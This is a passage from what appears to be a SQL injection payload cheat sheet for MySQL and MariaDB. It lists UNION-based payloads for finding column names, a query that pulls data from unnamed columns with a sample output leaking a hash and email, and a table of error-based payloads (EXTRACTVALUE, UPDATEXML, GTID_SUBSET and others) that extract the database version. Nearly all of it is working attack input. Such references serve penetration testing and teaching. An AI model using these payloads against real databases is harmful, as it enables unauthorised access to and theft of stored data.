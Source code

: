 Method for `MySQL 5`

| Payload | Output |
| --- | --- |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b)a` | Duplicate column name '**id**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id))a` | Duplicate column name '**name**' |
| `UNION SELECT * FROM (SELECT * FROM users JOIN users b USING(id,name))a` | Data |


### Extract Data Without Columns Name 

Extracting data from the 4th column without knowing its name.

```sql
SELECT `4` FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)DBNAME;
```

Injection example inside the query `select author_id,title from posts where author_id=[INJECT_HERE]`

```sql
MariaDB [dummydb]> SELECT AUTHOR_ID,TITLE FROM POSTS WHERE AUTHOR_ID=-1 UNION SELECT 1,(SELECT CONCAT(`3`,0X3A,`4`) FROM (SELECT 1,2,3,4,5,6 UNION SELECT * FROM USERS)A LIMIT 1,1);
+-----------+-----------------------------------------------------------------+
| author_id | title                                                           |
+-----------+-----------------------------------------------------------------+
|         1 | a45d4e080fc185dfa223aea3d0c371b6cc180a37:veronica80@example.org |
+-----------+-----------------------------------------------------------------+
```


## MYSQL Error Based

| Name         | Payload         |
| ------------ | --------------- |
| GTID_SUBSET  | `AND GTID_SUBSET(CONCAT('~',(SELECT version()),'~'),1337) -- -` |
| JSON_KEYS    | `AND JSON_KEYS((SELECT CONVERT((SELECT CONCAT('~',(SELECT version()),'~')) USING utf8))) -- -` |
| EXTRACTVALUE | `AND EXTRACTVALUE(1337,CONCAT('.','~',(SELECT version()),'~')) -- -` |
| UPDATEXML    | `AND UPDATEXML(1337,CONCAT('.','~',(SELECT version()),'~'),31337) -- -` |
| EXP          | `AND EXP(~(SELECT * FROM (SELECT CONCAT('~',(SELECT version()),'~','x'))x)) -- -` |
| OR           | `OR 1 GROUP BY CONCAT('~',(SELECT version()),'~',FLOOR(RAND(0)*2)) HAVING MIN(0) -- -` |
| NAME_CONST   | `AND (SELECT * FROM (SELECT NAME_CONST(version(),1),NAME_CONST(version(),1)) as x)--` |
| UUID_TO_BIN  | `AND UUID_TO_BIN(version())='1` |


### MYSQL Error Based - Basic

Works with `MySQL >= 4.1`
